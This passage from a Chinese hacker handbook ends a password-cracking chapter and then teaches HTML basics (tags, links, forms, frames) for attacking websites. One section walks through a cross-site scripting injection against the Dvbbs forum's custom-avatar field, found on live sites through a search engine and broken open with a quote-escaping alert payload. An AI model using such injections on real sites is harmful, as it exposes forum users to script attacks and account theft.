至此，一些常见的远程破解和本地破解的方法就为大家介绍完了。其实我们在使用电脑的过程中，除了上面介绍的这些破解内容外，还常常遇见 Office 文档、RAR 文件的破解等等。其实大家只要通过合适的工具，就能将需要的目标成功地进行破解。如果还有什么问题的话，欢迎大家到《黑客手册》的论坛，我们一起进行讨论。

### Q&A

- 1. 为什么我破解了这么长时间，也没有成功呢？  
  密码破解本身除了方法和技巧以外，运气也是非常重要的一环，所以我们在进行密码破解的时候，先要做好无法破解的心理准备，不要认为破解就一定能成功。
- 2. 为什么在进行 MSN 破解的时候不用暴力破解？  
  破解的方式有很多种，暴力破解只是其中的一种，当然也是最常见的一种。除了暴力破解外，还可以利用某些程序本身的漏洞直接读取保存在系统中的账号密码，MSN 就是这样的。

编辑点评：有时候对于破解密码是需要很强的耐心和运气的，如果利用暴力破解破解不出来也是很正常的，制作字典是关键。每个黑客都有属于自己的字典，如何建立一个优秀的字典也是需要一定功夫的，使用社会工程学配合制作字典是再好不过了。

声明：本章中的部分内容都是依靠互联网查找而得到的，非常感谢网络上那些无名人士所做的贡献。同时本章还引用了一些非常优秀的黑客文章，非常感谢这些文章的作者，他们分别是：剑心、王炜、罗秉琨、Hak_BaN、光芒果等等。

你从本章可以学到如下几点：

- 1、HTML 语言的各种基本知识
- 2、挂马入门技术
- 3、自定义头像跨站漏洞

## 第三章 HTML 入门

在前面的学习过程当中，我给大家介绍了在脚本环境下的常见漏洞攻击技术。相信各位黑友也知道怎么用工具和一些简单的代码来对网站进行入侵了。但我们的目标是要做一名脚本黑客高手，仅仅会用一些工具是远远不够的，必须要懂得分析代码，从代码里找出程序的漏洞。要做到这一点肯定要对各种脚本语言很熟悉，不然怎么分析呢？在平时聊天的过程中，遇到了很多初学者都非常想学习脚本，想成为脚本代码分析高手，但是目前市面上的脚本语言书籍都是厚厚的一本，更加别说要学那么多门脚本语言了，厚厚的一叠书还没开始看就被吓倒了。而且市面上销售的脚本语言书籍中的各种例子都是只顾着功能上的完美，在安全上却是漏洞百出，以至于用了这些教材的人编写出来的程序也同样是漏洞百出，典型的恶性循环后果。针对这些情况，我将带领大家从黑客的角度出发快速学习各种脚本语言，在有了一定的脚本语言基础之后，就开始学习各种常见脚本代码漏洞的分析，并成为一名一般人眼里的脚本程序漏洞分析高手。脚本语言里最基础也是非常重要的语言是 HTML，那么我们就先从最基本的 HTML 语言开始学习，在后面的几章将陆续为大家讲解各种脚本语言。对于那些没有任何脚本语言基础的朋友，一定要跟上我的脚步，不要掉队了哦。

### 3.1 什么是 HTML 语言

HTML 的中文名字叫超文本标记语言，它是 Internet 上编写网页的主要语言之一。用 HTML 编写的超文本文件称为 HTML 文件。在 Windows 操作系统下，我们可以用记事本来编写或者查看网页的 HTML 源代码。在用记事本编写 HTML 代码的时候需要注意的是，必须要把记事本的 txt 后缀名改成 html 或者 htm。但是在 Windows XP 系统下，默认情况下文件的后缀名是隐藏的，所以在编写代码之前需要做一些设置，把后缀名给显示出来。操作过程如下：打开“我的电脑”→点击“工具”→选择“文件夹选项”→点击“查看”（如图 3-1 所示）→在高级设置里找到“隐藏已知文件类型的扩展名”（如图 3-2 所示）→把前面的钩去掉。
图 3-1
图 3-2

这样就可以看到所有文件的后缀名了，如图 3-3 中显示了 html 和记事本两种文件的后缀。
图 3-3

那么我们在编写完 html 代码后，只要把 txt 改成 html 就可以执行代码了。而要查看网页中的源代码，可以在浏览器的菜单栏上选择“查看”——>再选择“源文件”，就可看到当前网页的代码。

#### 3.1.1 第一个用 HTML 编写的网页

- 1. 依次单击任务栏上的[开始]—>[程序]—>[附件]—>[记事本]菜单命令，启动记事本程序，输入如图 3-4 所示的语句。
图 3-4

- 2. 单击[文件][保存]菜单命令，在弹出的“另存为....”对话框中输入文件名 one.html，单击[保存]按钮，保存到桌面。提示：网页文件取名为 one.html 或 one.htm 均可。

- 3. 打开保存在桌面上的 one.html 文件，即可在 IE 浏览器中观看网页效果，在网页的标题栏上显示“这是我的第一个 HTML 网页”，而在文本区域显示“我也编写出了 HTML 网页哦！”，如图 3-5 所示。
图 3-5

#### 3.1.2 HTML 语言的基本语法和格式

HTML 文件通常都是以 `<html>` 开始，以 `</html>` 结尾，而中间有两大部分：第一部分是 `<head>...</head>` 区段，称为头部；第二部分是 `<body>...</body>` 区段，称为体部。下面是一个典型 HTML 文件所具有的结构。

```html
<html>    //HTML 文件开始
<head>    //头部开始
```

```html
<html>
<head>
<title>这是我的第一个 HTML 网页</title>  //<head>与</head>之间为文件头部
</head>      //头部结束
<body>       //体部开始
我也编写出了 HTML 网页哦！      //<body>与</body>之间为文件体部
</body>      //体部结束
</html>      //HTML 文件结束


```

在 HTML 中放在 `<` 和 `>` 中间的为标记名，而 `<标记名>` 称为标记。一般的 HTML 标记具有起始和结束标记，结束标记前面要加 “/”，并与前面的开始标记成对出现。特别要注意的是 HTML 语言对大小不敏感，即 `<html>` 和 `<HTML>` 或者 `<Html>` 是一样的，其他的标记也是一样的道理。下面是常见的 HTML 语法。

- 1. `<标记名>文本</标记名>`  
  例如 `<title>这是我的第一个 HTML 网页</title>`
- 2. `<标记名 属性名="属性值...">文本</标记名>`  
  在编程时属性和方法是最为常见的，但是很多朋友很难分清楚哪些是属性、哪些是方法。从最通俗的来讲，属性是属于静态的，而方法是属于动态的。举个例子来说明，假设上面的标记名是“人类”，那么人类很多静态的东西，比如黑种人、白种人、黄种人，这些都是静态的，不能够改变的。而人类的方法也有很多，比如走路、吃饭、跑步，这些都是动态的。方法可以完成一定的功能，而属性则不能。这个道理在 HTML 语言上也是如此，比如我们把网页的背景换成红色：`<body bgcolor="red">红色背景网页</body>`。
- 3. `<标记名>`  
  这种写法只由单一的标记组成，无需成对出现。比如我们的换行标记 `<br>`。那么在编写换行代码的时候我们可以这样写：第一行 `<br>` 第二行。那么在浏览器上显示时，第一行和第二行就不是同一行了。

### 3.2 HTML 的常用标记

#### 3.2.1 `<html>`、`<head>`、`<title>` 和 `<body>` 及其他标记

- 1. `<html>...</html>` 标记  
  一个 HTML 文件，无论是简单的还是复杂的，都是以 `<html>` 开头，以 `</html>` 结尾。`<html>` 标记还指出了本文件是 HTML 文件，当浏览器遇到 `<html>` 标记时会按照 HTML 标准解释后面的文本，直到遇到结束标记 `</html>` 才停止上述解释。提示：HTML 语言是属于解释性语言，不需要经过编译，直接用浏览器就可以执行其代码。
- 2. `<head>...</head>` 标记  
  `<head>` 和 `</head>` 构成了 HTML 文件的开头部分，在此标记对之间可以使用 `<title>...</title>`、`<script>...</script>` 等标记对，描述网页标题或者其他不在网页上显示的某些信息。
- 3. `<title>...</title>` 标记  
  `<title>` 标记用于设置浏览器窗口标题栏中详细的文本信息，这些信息一般是网页主题。注意：`<title></title>` 标记对只能放在 `<head></head>` 标记对之间。
- 4. `<body>...</body>` 标记  

`<body></body>` 是 HTML 文件的主题部分，之间可以定义多种标记。同时 `<body>` 也有很多属性，下面的都是比较常用的。`<body>` 指令的属性：

- 1. 背景颜色 -- bgcolor `<body bgcolor=#rrggbb>`
- 2. 背景图案 -- background `<body background="图形文件名">`
- 3. 设定背景图案不会卷动 -- bgproperties `<body bgproperties=fixed>`
- 4. 文件内容文字的颜色 -- text `<body text=#rrggbb>`
- 5. 超链接文字颜色 -- link `<body link=#rrggbb>`
- 6. 正被选取的超链接文字颜色 -- vlink `<body vlink=#rrggbb>`
- 7. 已链接过的超链接文字颜色 -- alink `<body alink=#rrggbb>`

它们所定义的文本、图像将会在浏览器的窗口内显示，在 `<body>` 这对标记中我们可以包含非常多的标记，常见的有如下一些：

- 1. 改变文字的大小 `<h#>...</h#>`，其中 #=1~6；h1 为最大字，h6 为最小字。
- 2. 改变字体的变化 `<font>...</font>`
  - 1. 改变字体大小 `<font size=#>...</font>` #=1~7；数字愈大字也愈大
  - 2. 指定文字的字型 `<font face="字型名称">...</font>`
  - 3. 改变文字的颜色 `<font color=#rrggbb>...</font>` rr：红色码，gg：绿色码，bb：蓝色码
- 3. 显示小字体 `<small>...</small>`；显示大字体 `<big>...</big>`；显示粗体字 `<b>...</b>`；显示斜体字 `<i>...</i>`；显示打字机字体 `<tt>...</tt>`；显示底线 `<u>...</u>`；显示删除线 `<strike>...</strike>`；显示下标字 `<sub>...</sub>`；显示上标字 `<sup>...</sup>`；显示文字闪烁效果 `<blink>...</blink>`
- 4. 换行标记 `<br>`；分段标记 `<p>`
- 5. 改变文字的对齐方向 `<p align="#">`，# 可为 left（预设值）、center、right。`<p align="#">` 之后的文字会依设定对齐，直到出现另一个 `<p align="#">`、`<hr>` 或 `<h#>` 标签。
- 6. 插入一条分隔线 `<hr>`
  - 1. 分隔线的粗细 `<hr size=点数>`
  - 2. 分隔线的宽度 `<hr size=点数或百分比>`
  - 3. 分隔线对齐方向 `<hr align="#">`，# 可为 left（预设值）、center、right
  - 4. 分隔线的颜色 `<hr color=#rrggbb>`
  - 5. 实心分隔线 `<hr noshade>`
- 7. 向中对齐 `<center>...</center>`
- 8. 在 `<body>` 标记中通常都有表格，定义表格的标记为 `<table>...</table>`，它通常有下面的属性：
  - 1. 设定边框的厚度 -- border `<table border=点数>`
  - 2. 设定格线的宽度 -- cellspacing `<table cellspacing=点数>`
  - 3. 设定资料与格线的距离 -- cellpadding `<table cellpadding=点数>`
  - 4. 调整表格宽度 -- width `<table width=点数或百分比>`
  - 5. 调整表格高度 -- height `<table height=点数或百分比>`
  - 6. 设定表格背景色彩 -- bgcolor `<table bgcolor=#rrggbb>`
  - 7. 设定表格边框色彩 -- bordercolor `<table bordercolor=#rrggbb>`
  - 9. 显示格线 `<table border>`
  - 10. 表格标题 `<caption>.........</caption>`  
    表格标题位置 -- align `<caption align="#">`，# 号可为 top：表标题置于表格上方（预设值）；bottom：表标题置于表格下方。

#### 3.2.2 `<!--注释内容-->`

`<!--` 标记表示注释的开始，`-->` 标记表示注释的结束。注释的功能是为了方便设计和供他人阅读，在浏览器处理 HTML 文件时，将忽略注释标记以及注释内容。

### 3.3 图片的插入及自定义头像跨站漏洞

#### 3.3.1 图像的插入

今天我们看到的丰富多彩的网页，都是因为有了图像的作用。在 HTML 页面中可以插入图像，网页常用的图像格式有 JPEG 和 GIF 这两种格式。插入图片的标记只有一个，那就是 `` 标记，一般的格式为：``。`src` 属性在 `` 标记中是必须赋值的，这个值可以是图像文件的路径及文件名，同时也可以是网址。除此之外，`` 标记中比较常用的属性还有：

- 1. `alt=""` 作用为设置当前鼠标移动到图像上时显示的文本。
- 2. `width=""` 作用为设置图像的宽度。
- 3. `height=""` 作用为设置图像的高度。

例如 `` 或者 ``，如图 3-6 所示。
图 3-6

#### 3.3.2 自定义头像跨站漏洞

目前很多论坛都提供了自定义头像的功能，在定义自己头像时用户只要输入 `src` 属性的值，其他的系统都已经定义好了。但是我们知道 `src` 的值可以是文件名或者网址，而且这个数据是用户自己定义的，所以如果系统没有对我们输入的数据进行过滤的话，那就可以用来跨站哦。就连鼎鼎大名的动网也曾出现过这样的漏洞。下面就结合动网自定义头像跨站漏洞来说明怎么利用 `` 标记来跨站。大家可以在自己机器上架设动网的环境，也可以利用网上现成的动网论坛来做实验。这里我为了节省时间，直接在网上做实验，打开 google 输入“powered by dvbbs”查找使用动网的网站。

随便注册个用户，登录之后点击修改用户资料，可以看到有一个自定义头像的功能，如图 3-7 所示。
图 3-7

在“完整 Url 地址”的输入框中输入跨站代码 `<script>alert("cmd")</script>`，提交之后发现并没有出现跨站的效果，如图 3-8 所示为输入跨站代码后返回的数据，从这里说明了系统并没有过滤我们的数据，这是一个经验问题，各位黑友要记住了。
图 3-8

以后凡是写入跨站代码后，从返回的数据上如果还出现一些字符，如显示存在 `<script>` 关键字啊，那一般是存在跨站漏洞，如果还不放心，可以查看源代码，利用记事本的查找功能查找跨站关键字。

上面没有过滤跨站代码，那为什么又没出现跨站呢？这是因为跨站代码被 HTML 中的引号、`<`、`>` 给封闭了，针对这种情况，首先是查看返回客户端的代码，查找到跨站的代码，这里我们是在找关键字 `cmd` 就可以了，下面是查找到的关键性源代码：`<td width=198 height=32>头像alert("cmd")</script>" width=32 height=32>**</td>`

我们可以看到我们的跨站代码没有过滤，而是被 `<` 和 `>` 及单引号给封锁了，所以我们只要避开那些字符就可以了，让 `<script>alert("cmd")</script>` 单独存在于代码中。这个还是很容易实现的，输入代码 `"><script>alert("cmd")</script><"` 之后，那么整条语句就变成了 `<script>alert("cmd")</script><" width=32 height=32>`，这样就实现了跨站效果，如图 3-9 所示。
图 3-9

### 3.4 超链接的建立

链接是一个网站的灵魂，在 HTML 中要创建超链接非常方便。超链接是网页页面中最重要的元素之一，在我们浏览网页时是使用度最为频繁的技术。我们都很清楚一个网站是由非常多的网页组成的，不同的页面之间依据链接确定相互的导航关系。每一个网页都有独一无二的地址，在英文中被称为 URL，中文名叫通用资源标识符，比如百度的网址是 http://www.baidu.com，那么网址 http://www.baidu.com 就是 URL。而在浏览器上输入网址的地方叫 URL 地址栏。而我们也是通过这个地址来定位相互之间的关系。链接主要有以下几种方式，我给大家详细讲来。

#### 3.4.1 文本链接

文本链接是使用网页上的文字作为链接点，我们只要点击文字就可以跳到指定的页面。通过文本来做链接的标记是 `<a href="URL">...</a>`。其中 href 的值可以是网址或者相对路径。例如 `<a href="http://www.baidu">百度</a>`。另外 href 的值也可以是 mailto: 形式，即发送 E-Mail 的形式，语法为 `<a href="mailto:EMAIL">...</a>`，这样就创建了一个自动发送邮件的链接，mailto: 后边为想要自动发送的电子邮件的地址。例如 `<a href="mailto:zengyunhao0@tom.com">曾云好的电子信箱</a>`，我一点曾云好的电子信箱就弹出了 outlook 的电子邮件，如图 3-10 所示。
图 3-10

#### 3.4.2 图像链接

图像链接指的是用户通过点击网页上的图像或者图像上的一部分就可以跳转到别处去。通过图像来做链接的标记是 `<a href="URL"></a>`。其中 href 的值可以是网址或者相对路径，src 可以是图片地址。例如 `<a href="http://www.baidu.com"></a>`，如图 3-11 所示。
图 3-11

#### 3.4.3 超链接的 target 属性

target 属性指定链接的文件出现在哪一类窗口，格式为：`<a href="URL" target="window-name">...</a>`。若 target 的值等于 `"_blank"`，点击链接后将会打开一个新的窗口来浏览目标；若不用 target 属性，当浏览者点击链接之后将会在原来的浏览器窗口中浏览新的 HTML 文件。例如 `<a href="http://zengyunhao0.blogcn.com" target="_blank">我的博客</a>`，点击之后就连接到我的博客上去了，如图 3-12。
图 3-12

#### 3.4.4 下载文件

下载是我们上网最常做的事情，通过链接来做下载非常简单。只需在链接地址处输入文件所在的位置即可。当浏览器的使用者单击链接后，浏览器会自动判断文件的类型，以做出不同情况的处理。基本语法：`<a href="file_URL">文字链接</a>`  
语法解释：file_URL 代表的是我们要下载的文件的地址，可以写相对路径，也可以写绝对路径。提示：相对文件是指在同一网站下的其他文件的路径称为相对路径，例如 `/news/default.html`；而为文件提供完全的路径，包括使用的协议，如 http、ftp 等，称为绝对路径，例如 [http://www.baidu.com](http://www.baidu.com)。

#### 3.4.5 脚本链接

其实通过脚本也可以做链接，而且可以用来实现 HTML 语言完成不了的功能，下面以 JavaScript 脚本语言为例说明脚本链接的使用。JavaScript 的各种语法将在下一章讲，这里就给大家对 JavaScript 的一个感性认识。基本语法：`<a href="JavaScript:...">文字链接</a>`  
语法解释：在 JavaScript: 后面编写的就是具体的脚本。  
例如编写一个关闭窗口功能的脚本链接代码：

```html
<html>
<head>
<title>关闭窗口功能的脚本链接</title>
</head>
<body>
<a href="JavaScript:window.close()">关闭窗口</a>
</body>
</html>


```

把它转换成 HTML 文件后，如图 3-13 所示。点击“关闭窗口”，就出现了提示关闭窗口的对话框，如图 3-14 所示。
图 3-13
图 3-14

#### 3.4.6 超链接的综合使用

- 1. 打开记事本程序，输入如下语句：

下面来编写一个在文字上设置目标为 URL 网址和邮件的超链接，并设置图像的点击看大图效果。操作过程如下：

```html
<html>
<head>
<title>超链接的使用举例</title>
</head>
<body>
<a href="logo.gif" target="_blank"></a>
<a href="http://zengyunhao0.blogcn.com/">我的博客</a>
<a href="mailto:zengyunhao0@tom.com">我的电子邮件地址</a>
<a href="logo.gif">下载</a>
</body>
</html>


```

- 2. 单击[文件]→[保存]菜单命令，命名为 3.4.4.html，保存在文件夹 3.4.4 中。双击此文件，即可在 IE 浏览器中观看网页效果，如图 3-15 所示。
图 3-15

### 3.5 表单

#### 3.5.1 什么是表单

HTML 中的表单是 HTML 页面与浏览器端实现交互的重要手段。利用表单，服务器可以收集客户端浏览器提交的相关信息，比如输入的密码等等。我们在浏览网站时经常会遇到表单，它是服务器与浏览器实现互动功能的重要组成部分，互动在这里的意思是指相互之间交换数据的一个过程，比如把我们在本地输入的密码传送到服务器上。不管网站的服务端使用的是哪一种形式的语言来实现网站的互动功能，例如 ASP、PHP、JSP 等，目前表单都已经成为它们统一的信息收集方法。

表单的主要功能是收集信息，具体地说是收集浏览者的信息。例如在网上申请一个电子邮箱，就必须按要求填写完成网站提供的表单页面，其内容主要是姓名、年龄、联系方式等个人信息。又例如要在某个论坛上发言，发言之前要申请资格，也是要填写完成一个表单网页。当然表单在不看源代码的情况下是不可见的，用户感觉不出表单的存在。

表单通常可以用于调查、订购、搜索等功能。一般的表单由两部分组成：一是描述表单元素的 HTML 源代码，在浏览器上我们可以通过源代码来查找这部分；二是客户端脚本，或者是服务器端用来处理用户所填写内容的程序，这里主要是处理收集过来的数据。比如上面的例子中获得的密码，传送到服务器上肯定要验证密码是否正确，如果正确就进入，错误就登录不了，这就是一个处理过程。在 HTML 中，我们可以定义表单，并且使表单与 ASP、PHP 等服务端脚本语言的表单处理程序配合。表单信息的处理过程为：当我们单击表单中提交的按钮时，输入在表单中的信息就会传送到服务器中，然后由服务器的相关应用程序进行处理，处理后或者将用户提交的信息存储在服务端的数据库中，或者将有关信息返回到客户端的浏览器上。下面就来具体接触一下表单的各个知识点。

#### 3.5.2 表单标记 `<FORM>`

表单是在网页上的一个特定区域中，这个区域由一对 `<FORM>` 标记定义和标识。`<FORM>` 标记在网页中主要有两个方面的作用。

- 第一，可以限定表单的作用范围，其他的表单对象标记都要插入到表单之中。比如我们单击提交按钮时，提交的也是表单范围之内的内容，而表单之外的内容却不会提交。
- 第二，包含表单本身所有的相关信息，例如处理表单的脚本程序的位置、提交表单的方法等。

表单的基本语法和语法解释如下（语法解释如表 3-1）：

```html
<FORM name="form_name" method="method"
action="URL" enctype="value" target="target_win">
..............
</FORM>
```

| 属性 | 描述 |
|---|---|
| NAME | 表单的名称 |
| METHOD | 定义表单从浏览器传送到服务器的方法，一般用：get 和 post 两种方法 |
| ACTION | 定义表单处理程序的位置，有绝对路径和相对路径两种 |
| ENCTYPE | 设置表单的编码方式 |
| TARGET | 设置返回信息的显示方式 |

在上面的属性中，NAME、METHOD、ACTION 最为常用，也是脚本程序分析的基础，下面分别对它们进行详细说明和解释。

- 1. `<FORM>` 标记的 NAME 属性  
  基本语法是：

```html
<FORM name="form_name">
......................
</FORM>
```

通过表单名可以控制表单与服务端处理程序之间建立关系，用名字来确定在服务端中程序处理的标识。

- 2. `<FORM>` 标记的 ACTION 属性  
  基本语法是：

```html
<FORM ACTION="URL">
......................
</FORM>
```

通过表单的 ACTION 属性，定义了表单中数据提交的地址。这个地址可以是绝对路径，也可以是相对路径，也可以是邮件地址。例如 `<FORM NAME="邮件" ACTION="mailto:zengyunhao0@tom.com">`。

- 3. `<FORM>` 标记的 METHOD 属性  
  基本语法是：

```html
<FORM METHOD="method">
......................
</FORM>
```

METHOD 有两种方法选择，一是 GET，二是 POST。通过 GET 方法提交数据时，表单中所有内容都会附加在 URL 地址后面，之间通过问号“?”隔开。传递数据的格式是 `"name=value"`，name 就是要传递的数据名字，而 value 就是要传递的值；当有多个要传递的时候，多个值之间可以通过符号“&”分隔开。例如 `http://localhost/haha/haha.asp?name1=value1&name2=value2`。由于这个数据是在 URL 地址后面，所以对提交信息的长度进行了限制，不可以超过 8192 个字符。目前使用最多的还是 POST 方法，这个方法将用户在表单中填写的数据包含在表单主体中，一起传到服务端处理程序中，所以这个方法没有大小限制。在不指明哪种方式时，默认是 GET 方式。

在定义好了表单标记 `<FORM>` 后，就可在里面添加完成具体功能代码的标记了。表单中可以包含的标记有 4 个，如表 3-2 所示：

| 标记 | 描述 |
|---|---|
| `<INPUT>` | 表单输入标记 |
| `<SELECT>` | 菜单和列表标记 |
| `<OPTION>` | 菜单和列表项目标记 |
| `<TEXTAREA>` | 文字域标记 |

在 HTML 代码中，它们的组织形式如下：

```html
<FORM>
<input>................</input>
<textarea>..............</textarea>
<select>
    <option>..........</option>
</select>
</FORM>
```

对于上面的标记，在脚本黑客技术中最频繁的应该就是 `<INPUT>` 和 `<TEXTAREA>` 这两个了，下面就详细地讲解这两个标记。

#### 3.5.3 输入标记 `<INPUT>`

输入标记 `<INPUT>` 是表单中最常用的标记之一，我们在网页中常用的文本域、按钮都是使用这个标记。基本语法如下：

```html
<form>
<input name="field_name" type="type_name">
</form>
```

其中 name 是域的名称，type 是域的类型。在 type 属性中可以有很多属性值。其中常用的而且和黑客技术联系紧密的有：TEXT、PASSWORD、FILE、BUTTON、SUBMIT、RESET、HIDDEN。

- 1. 文字域 TEXT

TEXT 属性值用来设定在表单的文本区域中输入任何类型的文本、数字和字母。其中输入的数据以单行显示。先看基本语法和语法解释：

```html
<INPUT type="text" name="field_name" maxlength=value size=value value="field_VALUE">
```

语法解释如表 3-3 所示：

| 文字域属性 | 描述 |
|---|---|
| NAME | 文字域的名称 |
| MAXLENGTH | 文字域的最大输入字符数 |
| SIZE | 文字域的宽度（以字符为单位） |
| VALUE | 文字域的默认值 |

这就是文字域的一些基本知识。下面通过编写一个例子来说明，代码如下：

```html
<html>
<head>
<title>插入文字域</title>
</head>
<body>
用户调查
<form action=mailto:zengyunhao0@tom.com method=get name=haha>
//编写一个表单，连接为邮件地址，方法是 get 提交，名字是 haha
姓名：<input type="text" name="username" size=20>
//编写一个文字域，名字为 username，宽度为 20
网址：<input type="text" name="URL" size=20 maxlength=50 value="http://">
//编写一个文字域，名字为 URL，宽度为 20，最大输入长度为 50，默认值是 http://
</form>
</body>
</html>


```

编写完代码之后，我们把后缀名改成 html 后，执行看看，如图 3-16 所示。对于这样的图片来说，相信会上网的朋友都应该见过吧。
图 3-16

- 2. 密码域 PASSWORD

我们在上网时，比如登录邮箱是肯定要输入密码的，这个输入密码的输入框叫做密码域，它是文本域的另外一种形式。它的功能是输入到文本域中的文字均以星号“*”或者圆点显示。基本语法和上面的文字域差不多，区别是要把 type 中的 text 改成 password 即可。还是以上面文本域的例子为基础，在 `<form>` 标记之间加入一条代码“密码：`<input type="password" name="password" size=20 maxlength=30>`”，保存之后打开文件，并且在密码输入框中输入任何字符看看，都是圆点，而真正的字符却隐藏了，如图 3-17 所示。
图 3-17

- 3. 文件域 FILE

文件域可以让我们在域的内部填写自己本地电脑上的文件，最后通过表单上传，这是文件域的基本功能。运用最多的应该就是上传了。文件域在外观上是一个文本框加一个浏览按钮，我们既可以直接将要上传给网站的文件路径填写在文本框中，也可以单击浏览按钮，在自己的电脑中找到要上传的文件。基本语法是 `<INPUT type="file" name="field_name">`，它的类型为 FILE，name 为这个文件域的名称。下面来简单编写一个文件域，代码如下：

```html
<html>
<head>
<title>文本域</title>
</head>
<body>
<form>
请上传你的相片：<INPUT type="file" name="file">
</form>
</body>
</html>


```

保存之后打开就可以看到文本域的真实面目了，如图 3-18 所示。这样的上传图片相信大家都见过吧。
图 3-18

- 4. 按钮

表单中的按钮起着一个至关重要的作用。按钮可以有提交表单所有数据到服务端的功能；可以在用户需要修改表单的时候，将表单恢复到初始状态；还可以依照程序的需要，发挥其他作用。按钮一般分为 BUTTON（普通按钮）、SUBMIT（提交按钮）、RESET（重置按钮）三种。

普通按钮 BUTTON 的语法是 `<INPUT type="BUTTON" name="field_name" value="BUTTON_TEXT">`，其中 value 的值代表显示在按钮上的文字。

提交按钮 SUBMIT 的作用是在单击这个按钮后，把表单中的数据全部提交到服务端的处理程序中去。基本语法是 `<INPUT type="SUBMIT" name="field_name" value="BUTTON_TEXT">`，其中 value 的值代表显示在按钮上的文字。

重置按钮 RESET 就是在单击按钮后，把我们填入在表单中的数据全部清除，恢复到默认的表单内容设定。基本语法是 `<INPUT type="RESET" name="field_name" value="BUTTON_TEXT">`。再次提示：在 HTML 语言中，大小写是不区分的。下面简单编写一个例子来实践一下按钮的效果，代码如下：

```html
<html>
<head>
<title>表单按钮演示</title>
</head>
<body>
用户注册
<form action=mailto:zengyunhao0@tom.com method=get name=haha>
姓名：<input type="text" name="username" size=20><br>
密码：<input type="password" name="password" size=20 maxlength=30><br>
网址：<input type="text" name="URL" size=20 maxlength=50 value=http://><br>
<INPUT type="BUTTON" name="field_name" value="普通按钮">
<INPUT type="SUBMIT" name="field_name" value="提交按钮">
<INPUT type="RESET" name="field_name" value="重置按钮">
</form>
</body>


```

保存之后，打开文件看看，如图 3-19 所示。我想相似的图片大家应该也见过，最多的就是在注册用户时使用。
图 3-19

- 5. 隐藏域 HIDDEN

隐藏域在页面中对于我们用户来说是看不到的，因为它被隐藏起来了。在表单中插入隐藏域的目的就在于收集或发送信息。我们在点击提交按钮发送表单数据的时候，隐藏域的信息也被一起发送到了服务器中。它的基本语法是 `<INPUT type="hidden" name="field_name" value="value">`。我之所以也给大家讲解隐藏域，是因为很多程序在写程序时认为这个是隐藏起来的，认为用户看不到，所以很多情况下没有对隐藏域的参数进行检测和过滤，因此发生了很多安全事故。

#### 3.5.4 文本域标记 `<TEXTAREA>`

这个标记通常用来在网页中做多行文字域，这样可以输入更多文本，用得最多的是在文章评论中。它的基本语法是 `<TEXTAREA name="name" rows=value cols=value value=value></TEXTAREA>`，它所具有的属性如表 3-4 所示。

| 属性 | 说明 |
|---|---|
| name | 文本域的名称 |
| rows | 文本域的行数 |
| cols | 文本域的列数 |
| value | 文本域的默认值 |

下面结合一个例子来具体说明，让大家从实践中明白这并不是很难。具体代码如下：

```html
<html>
<head>
<title>文本域功能演示</title>
</head>
<body>
用户调查
<form action=mailto:zengyunhao0@tom.com method=get name=haha>
留言板：
<br>
<TEXTAREA name="comment" rows=5 cols=40></TEXTAREA><br>
<INPUT type="SUBMIT" name="field_name" value="提交留言">
</form>
</body>
</html>


```

保存代码和改了后缀名之后打开看看，是不是和网上的留言板一样呢，如图 3-20 所示。
图 3-20

### 3.6 框架

现在网站导航服务在网上非常流行，比较著名的有 [www.hao123.com](http://www.hao123.com) 等网站。在 hao123 网站的页面上，这个页面被分成了几个区域，每个区域显示不同的内容。要完成这个功能，就是利用框架技术来实现的。框架的作用就是把浏览器窗口划分为几个更小的区域，每个区域显示不同的内容。所以使用框架可以非常方便地完成我们网站的导航工作。如果一个网页的各个部分都是相互独立的网页，并且又由一个网页将这些分开来的网页组成一个完整的网页，显示在我们的浏览器中，而且同一个页面上的不同框架之间不存在相互干扰的问题，所以框架技术一直都普遍应用在页面导航上。但是同时也非常普遍地运用在黑客技术上。

框架主要由两部分组成，一个是框架集，另一个是框架。下面我将详细为大家讲解这两个组成部分，学好了的话，那以后就知道怎么挂马了哦。跟我来吧。

#### 3.6.1 框架集标记 `<FRAMESET>`

框架集是在一个文件里构造一组有框架结构的 HTML 网页。框架集在网页的一个窗口中显示了框架数目、框架尺寸及放入到框架中的网页等。其实框架就是在一个网页中定义出来的一个显示区域，框架集的标记为 `<FRAMESET>`。

在使用了框架集的页面上，页面的 `<BODY>` 标记被 `<FRAMESET>` 标记取代了，然后通过 `<FRAME>` 标记定义每一个框架。基本页面代码如下：

```html
<html>
<head>
<title>基本框架代码</title>
</head>
<frameset>
    <frame>
    <frame>
    ............ ....
</frameset>
</html>
```

框架一般是把网页分成几个小块，主要分割方法有：左右分割、上下分割、嵌套分割这三种。下面详细来说说这三种分割方式。

- 1. 左右分割

在水平方向，浏览器可以被分割成多个窗口，利用框架的左右分割窗口属性 COLS 就可以实现。基本语法是：

```html
<frameset cols="value,value,............">
    <frame>
    <frame>
    ..........
</frameset>
```

其中 value 为各个框架的宽度值，定义了几个 value 值，就会有几个框架。value 的值可以是像素，也可以是百分比。比如我们编写一个将浏览器分割成左右两个框架的网页，代码如下：

```html
<html>
<head>
<title>左右分割窗口</title>
```

```html
</head>
<frameset cols="30%,70%">
// 将整个浏览器分成两部分，一个占30%的页面，另一个占70%的页面
    <frame>
    <frame>
</frameset>
</html>


```

如图3-21显示了左右分割窗口的显示结果。
图3-21

##### 2. 上下分割

如果在垂直的方向上要把浏览器分割成多个窗口，使用框架的上下分割窗口属性 `ROWS` 就可以了。基本的语法是：

```html
<frameset rows="value,value,............">
    <frame>
    <frame>
    ............
</frameset>
```

`value` 的值和上面是一样的。将浏览器上下分割成三个窗口看看，代码如下：

```html
<html>
<head>
<title>上下分割窗口</title>
</head>
<frameset rows="20%,50%,*">
// 将整个浏览器上下分成三部分，一个占20%的页面，一个占50%的页面，还有一个使用星号，
// 它代表的是剩下的所有资源。
    <frame>
    <frame>
    <frame>
</frameset>
</html>


```

如图3-22所示，上下分割成了三个窗口的页面。
图3-22

##### 3. 嵌套分割

如果一个网页中既有左右分割窗口又有上下分割窗口，那么这样的窗口我们就叫嵌套框架。基本语法是：

```html
<frameset rows="value,value,…………..">
    <frame>
    <frameset cols="value,value,…………..">
        <frame>
        …………
</frameset>
```

上面的代码是先将框架按照上下分割，然后在第二个框架中进行左右分割。当然这里的代码我们还是可以修改的，这只是一个模式而已。比如我们编写一个嵌套框架，先将窗口分割成左右两个，宽度为20%和80%，然后再将第二个窗口分割成上下两个，高度分别为20%和80%。

```html
<html>
<head>
<title>上下分割窗口</title>
</head>
<frameset cols="20%,80%">
    <frame>
    <frameset rows="20%,80%">
        <frame>
        <frame>
    </frameset>
</frameset>
</html>


```

运行结果如图3-23所示。
图3-23

